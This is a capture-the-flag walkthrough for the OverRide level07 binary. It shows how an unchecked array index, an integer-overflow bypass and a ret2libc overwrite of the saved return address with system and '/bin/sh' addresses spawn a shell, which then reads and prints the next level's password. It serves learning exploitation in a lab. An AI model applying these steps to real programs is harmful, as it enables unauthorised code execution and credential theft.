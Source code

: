# level07 walkthrough

## the binary
``` shell
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 42
 Index: 42
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
Input command: store
 Number: 42
 Index: 1
 Completed store command successfully
Input command: store
 Number: 42
 Index: 0
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
Input command: read
 Index: 0
 Number at data[0] is 0
 Completed read command successfully
Input command: read
 Index: 42
 Number at data[42] is 0
 Completed read command successfully
 Input command: read
 Index: 1
 Number at data[1] is 42
 Completed read command successfully
```

## methodology
- ret2libc attack

As we observed the behavior of the binary with various inputs and examined the disassembled code, we realized several things:

- the main functionality involves storing and reading numbers from an array
- the array has 100 active number positions
- there are no limits on indices, so we can access stack memory
- some positions are protected (zero + indices divisible by 3)
- the `env` and `argv` are overwritten before the storage is run (= no shellcode possible)

We start by printing stack variables stored in indices greater than 100:
``` shell
level07@OverRide:/$ bash /tmp/print_stack.sh
tab[100]: 0x1
tab[101]: 0x64616572
tab[102]: 0x0
tab[103]: 0x0
tab[104]: 0x0
tab[105]: 0x0
tab[106]: 0xd18b1b00
tab[107]: 0xf7feb620
tab[108]: 0x0
tab[109]: 0x8048a09
tab[110]: 0xf7fceff4
tab[111]: 0x0
tab[112]: 0x0
tab[113]: 0x0
tab[114]: 0xf7e45513
tab[115]: 0x1
tab[116]: 0xffffd6c4
tab[117]: 0xffffd6cc
tab[118]: 0xf7fd3000
tab[119]: 0x0
tab[120]: 0xffffd61c
tab[121]: 0xffffd6cc
tab[122]: 0x0
tab[123]: 0x80482b8
tab[124]: 0xf7fceff4
tab[125]: 0x0
```

The `EIP` register is located at position 114 (as the `0xf7` prefix suggests it is likely within the range of dynamically linked libraries, such as `libc`), which is unfortunately reserved for wil. Since the `EIP` register tells the CPU where to execute the next instruction, gaining control of it is crucial. To access this position, we use integer overflow:
``` vbnet
UINT_MAX = 4294967295 (+ 1 for overflow)

4294967296 / 4 (int) + 114 = 1073741938

└─> accessing position 1073741938 allows us to store/read to confirm we operate on 114
```

Having access to `EIP` means we can perform a ret2libc attack. We only need to find the addresses of `system` and `/bin/sh`, as `exit` can be executed by the binary itself. Lets convert these addresses to decimal for storage in the array:
``` vbnet
(gdb) p &system
$1 = (<text variable, no debug info> *) 0xf7e6aed0 <system>
└─> decimal: 4159090384

(gdb) find &system, +999999999, "/bin/sh"
0xf7f897ec
└─> decimal: 4160264172
```

As we tested multiple positions, we found that the functional position for `/bin/sh` is 116. Therefore, upon execution of the binary, we need to make the following changes:
``` vbnet
position 114 = system address
└─> tab[1073741938] = 4159090384

position 116 = /bin/sh address
└─> tab[116] = 4160264172

quit command = exit address
```

## flag
``` shell
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
